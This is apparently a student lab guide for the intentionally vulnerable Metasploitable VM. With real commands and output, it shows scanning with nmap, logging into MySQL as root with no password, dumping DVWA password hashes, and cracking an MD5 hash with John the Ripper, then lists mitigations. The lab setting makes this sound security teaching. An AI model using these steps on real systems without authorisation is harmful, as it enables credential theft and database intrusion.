




## 📚 **Lab 2 Full Beginner Guide — Step-by-Step**

---

### 🛠️ **Tools You’ll Use**
- **Kali Linux** (your hacking playground)
- **mysql / mariadb-client** (to connect to database)
- **hashid / hash-identifier** (to detect what kind of hash)
- **John the Ripper / Hashcat** (to crack passwords)
- **Wireshark (optional)** (to see if passwords travel unencrypted)

---

## ✅ **PART 1: Service Enumeration and Initial Access**

**What you’re doing**  
➡️ Finding out what database is on the victim machine and trying to connect to it from Kali.

---

### 🔍 1.1 Check for Open Ports  
**Command:**
```bash
nmap -sV [target-ip]
```
**Explanation:**
- `nmap` → Network scanner
- `-sV` → Show service version
- `[target-ip]` → Replace this with your victim machine IP (example: 192.168.56.101)

**What you’ll see:**
You should see something like:
```
3306/tcp open  mysql
```
Meaning port **3306** is open for **MySQL** database.

```sh
nmap -sV 192.168.153.140
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-23 03:16 EDT
Nmap scan report for 192.168.153.140
Host is up (0.00095s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login?
514/tcp  open  shell       Netkit rshd
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5                     👈
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7                👈
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 00:0C:29:EA:B8:37 (VMware)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.29 seconds
```


---

### 🔑 1.2 Try Connecting to Database  
**Command:**
```bash
mysql -h [target-ip] -u root -p
```
**Explanation:**
- `mysql` → Connect to MySQL
- `-h` → Host (IP address of victim)
- `-u` → Username
- `-p` → Prompt for password (or leave blank)

**What might happen:**
- You might get an **Access Denied** error.
- Or it might let you in without a password (this is a cryptographic problem).
```sh
mysql -h 192.168.153.140 -P 3306 -u root -p
Enter password:
WARNING: option --ssl-verify-server-cert is disabled, because of an insecure passwordless login.

ERROR 2026 (HY000): TLS/SSL error: wrong version number
```


### 📋 1.3 If Connection Error Happens  
If it fails:
- Try connecting without `-p`
```bash
mysql -h [target-ip] -P 3306 -u root --ssl-mode=DISABLED
```
If this works — it’s a huge flaw because **no password = bad security**.
```sh
mysql -h 192.168.153.140 -P 3306 -u root --ssl-mode=DISABLED
mysql: unknown variable 'ssl-mode=DISABLED'
```


✅ **Document**  
- Command you used  
- What happened (error / success)

#### 🧪 1.4: Successfully connected by skipping SSL
```bash
mysql -h [target-ip] -P 3306 -u root --password= --skip-ssl
```

✅ **Success!** Connected to the MySQL service:
```
Welcome to the MariaDB monitor...
Server version: 5.0.51a-3ubuntu5 (Ubuntu)
```
```sh
mysql -h 192.168.153.140 -P 3306 -u root --password= --skip-ssl

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 22
Server version: 5.0.51a-3ubuntu5 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```


### 🧠 Explanation:

- The **MySQL client tried to use TLS/SSL by default**, but the **server did not support it** or was using an **older version (MySQL 5.0.51a)** incompatible with the client's TLS version.
- Using the `--skip-ssl` flag **disabled SSL negotiation**, which allowed the connection to succeed.
- The **client `ssl-mode` option** is not recognized by this older version of `mysql` on Kali. Instead, `--skip-ssl` worked.


---

## ✅ **PART 2: Enumeration of Users and Weaknesses**

**What you’re doing**  
➡️ Looking inside the database to see the list of users and checking if any of them have no passwords.


### 📚 2.1 Show All Databases  
**Command:**
```sql
SHOW DATABASES;
```
```sh
MySQL [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| dvwa               |
| metasploit         |
| mysql              |
| owasp10            |
| tikiwiki           |
| tikiwiki195        |
+--------------------+
7 rows in set (0.001 sec)
```


### 📂 2.2 Pick a Database  
Example:
```sql
USE dvwa;
```
```sh
MySQL [(none)]> USE dvwa;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```


### 📑 2.3 Show Tables  
**Command:**
```sql
SHOW TABLES;
```
```sh
MySQL [dvwa]> SHOW TABLES;
+----------------+
| Tables_in_dvwa |
+----------------+
| guestbook      |
| users          |
+----------------+
2 rows in set (0.001 sec)
```


### 👥 2.4 Look at User Table  
**Command:**
```sql
SELECT User, Host, Password FROM user;
```

**What you’ll see:**  
A list like this:
```
MySQL [mysql]> SELECT User, Host, Password FROM user;
+------------------+------+----------+
| User             | Host | Password |
+------------------+------+----------+
| debian-sys-maint |      |          |
| root             | %    |          |
| guest            | %    |          |
+------------------+------+----------+
3 rows in set (0.001 sec)
```


✅ **Check**
- Any user with **no password** (empty) → very bad  
- Weak hash (too short or old format)

### ❓ Is No Password a Crypto Failure?
**Answer:**  
Yes — it breaks the idea of **secure cryptographic authentication**. Passwords should always be required, hashed, and protected.

---

## ✅ **PART 3: Password Hash Discovery**

**What you’re doing**  
➡️ Finding hashed passwords in the database.

### 🔍 3.1 Look for Hashes  
You already did:
```sql
SELECT user, password FROM dvwa.users;
```
```sh
MySQL [dvwa]> SELECT User, Password FROM dvwa.users;
+---------+----------------------------------+
| User    | Password                         |
+---------+----------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 |
| gordonb | e99a18c428cb38d5f260853678922e03 |
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 |
+---------+----------------------------------+
5 rows in set (0.001 sec)
```
✅ Copy the hash value for cracking.



### 🕵️‍♂️ 3.2 Identify Hash Type

Use either tool:

**Command (hashid):**
```bash
hashid [hash]
```
```sh
hashid 5f4dcc3b5aa765d61d8327deb882cf99
Analyzing '5f4dcc3b5aa765d61d8327deb882cf99'
[+] MD2
[+] MD5
[+] MD4
[+] Double MD5
[+] LM
[+] RIPEMD-128
[+] Haval-128
[+] Tiger-128
[+] Skein-256(128)
[+] Skein-512(128)
[+] Lotus Notes/Domino 5
[+] Skype
[+] Snefru-128
[+] NTLM
[+] Domain Cached Credentials
[+] Domain Cached Credentials 2
[+] DNSSEC(NSEC3)
[+] RAdmin v2.x
```


**Command (hash-identifier):**
```bash
hash-identifier
```
```sh
hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH:
```
```sh
HASH: 5f4dcc3b5aa765d61d8327deb882cf99

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

Least Possible Hashs:
[+] RAdmin v2.x
[+] NTLM
[+] MD4
[+] MD2
[+] MD5(HMAC)
[+] MD4(HMAC)
[+] MD2(HMAC)
[+] MD5(HMAC(Wordpress))
[+] Haval-128
[+] Haval-128(HMAC)
[+] RipeMD-128
[+] RipeMD-128(HMAC)
[+] SNEFRU-128
[+] SNEFRU-128(HMAC)
[+] Tiger-128
[+] Tiger-128(HMAC)
[+] md5($pass.$salt)
[+] md5($salt.$pass)
[+] md5($salt.$pass.$salt)
[+] md5($salt.$pass.$username)
[+] md5($salt.md5($pass))
[+] md5($salt.md5($pass))
[+] md5($salt.md5($pass.$salt))
[+] md5($salt.md5($pass.$salt))
[+] md5($salt.md5($salt.$pass))
[+] md5($salt.md5(md5($pass).$salt))
[+] md5($username.0.$pass)
[+] md5($username.LF.$pass)
[+] md5($username.md5($pass).$salt)
[+] md5(md5($pass))
[+] md5(md5($pass).$salt)
[+] md5(md5($pass).md5($salt))
[+] md5(md5($salt).$pass)
[+] md5(md5($salt).md5($pass))
[+] md5(md5($username.$pass).$salt)
[+] md5(md5(md5($pass)))
[+] md5(md5(md5(md5($pass))))
[+] md5(md5(md5(md5(md5($pass)))))
[+] md5(sha1($pass))
[+] md5(sha1(md5($pass)))
[+] md5(sha1(md5(sha1($pass))))
[+] md5(strtoupper(md5($pass)))
```


- Paste the hash inside the tool and see what it says (could be `MySQL323`, `MySQLSHA1`, etc.)

---

### ❓ Weakness Explanation
If it’s a weak hashing method like **MD5**:
- It’s too short
- Can be easily cracked  
- Not salted (salt = extra random value to make it harder)

---

## ✅ **PART 4: Offline Hash Cracking**

**What you’re doing**  
➡️ Trying to break the hashed password using a cracking tool.

---

### 🔨 4.1 Crack with John the Ripper

**Save hashes to a file**
```bash
echo "[hash]" > hashes.txt
```
```sh
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hashes.txt 
```


**Run John**
```bash
john --format=raw-md5sum --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
**Explanation:**
- `--format=mysql` → Type of hash
- `--wordlist=...` → Wordlist to use (rockyou.txt is famous)
- `hashes.txt` → File with your hash
```sh
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (?)     👈
1g 0:00:00:00 DONE (2025-04-23 04:09) 100.0g/s 19200p/s 19200c/s 19200C/s 123456..november
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```


**Check Cracked Password**
```bash
john --show --format=raw-md5 hashes.txt
```
```sh
john --show --format=raw-md5 hashes.txt
?:password

1 password hash cracked, 0 left
```

✅ If it cracks → Write down the cracked password

---

## ✅ **PART 5: Cryptographic Analysis & Mitigation**

**What you’re doing**  
➡️ Summarizing what you found wrong, and suggesting how to fix it.

---

### 🔍 5.1 Issues Found:
- **No passwords**  
- **Weak password hashes (md5)**  
- **Possible unencrypted data transmission**

---

### 🛡️ 5.2 Solutions:
- **Use strong password hashing**  
  - Replace `MySQL323` with `bcrypt` or `argon2`
- **Force all users to have strong passwords**
- **Encrypt connections**  
  - Use **SSL/TLS** for database connections
- **Disable remote root logins**

---

## ✅ (Optional) Wireshark Check  

Open Wireshark and capture traffic while connecting to MySQL:

Filter by:  
```
mysql
```

Look for the **Login Request** packet:
  - You’ll likely see the **username in plain text**
  - The **password won’t be in plain text**, but a **scrambled hash** instead  
  - This is still **insecure if SSL is not used**, because the scrambled password can be captured and brute-forced offline

- If you're using `--skip-ssl`, this makes it easier for attackers to sniff login attempts  
- **If you ever see a plain-text password** (rare in modern setups) — that’s a major red flag 🚨